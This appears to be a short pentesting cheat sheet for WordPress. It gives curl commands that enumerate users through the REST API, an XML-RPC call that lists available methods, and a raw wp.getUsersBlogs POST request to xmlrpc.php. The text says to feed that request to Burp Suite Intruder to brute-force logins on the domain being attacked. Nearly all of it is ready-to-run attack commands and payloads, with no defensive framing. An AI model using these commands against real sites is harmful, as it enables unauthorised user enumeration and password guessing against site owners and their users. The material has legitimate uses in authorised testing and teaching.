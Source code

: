# Pentesting Wordpress

## Rest API User Enumeration

    curl -k https://$DOMAIN/wp-json/wp/v2/users
    curl -k https://$DOMAIN/wp-json/akismet/v1
    curl -k https://$DOMAIN/wp-json
    curl -k https://$DOMAIN/wp-json/wp/v2/pages

## Brute Force Login

### List all methods
    
    curl -L \
    -X POST \
    -d '<methodCall> <methodName>system.listMethods</methodName> <params></params> </methodCall>' \
    https://$DOMAIN/xmlrpc.php
    
    
### POST Request
This is used for the brute force login.  Replace $DOMAIN with the domain you are attacking. Use Burp Suite Intruder to attack.

```
POST //xmlrpc.php HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Cookie: wordpress_test_cookie=WP%20Cookie%20check
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8 Accept-Encoding: gzip,deflate
Content-Length: 264
Host: $DOMAIN
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.61 Safari/537.36
Connection: Keep-alive
<?xml version="1.0" encoding="iso-8859-1"?>
<methodCall> <methodName>wp.getUsersBlogs</methodName>
<params> <param><value><string>admin</string></value></param>
<param><value><string>894437894437534447</string></value> </param>
</params>
</methodCall>
```
